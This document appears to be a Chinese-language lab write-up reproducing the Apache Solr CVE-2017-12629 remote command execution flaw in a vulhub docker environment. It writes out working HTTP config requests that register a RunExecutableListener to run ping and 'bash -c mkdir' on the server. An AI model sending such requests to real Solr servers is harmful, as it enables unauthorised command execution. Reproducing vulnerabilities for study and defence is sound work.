


# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 影响版本
<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容
```shell
/solr/admin/cores
```
通过查看代码，能够触发命令执行的事件有两个：`postCommit` 和`newSearcher`


第一个请求包用于载入缓存中

```
exe : ping  执行的命令
dir: 命令存在的目录位置
args:命令参数
```

如下请求包执行的是 /bin/ping 1.1.1.1

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```


第二个请求包用于更新缓存并执行命令

```shell
POST /solr/demo/update

[{"id":"test"}]
```
进入docker容器查看发现命令已经执行



使用 newSearcher可以直接加载入缓存执行命令

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

成功执行了创建文件的命令



如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

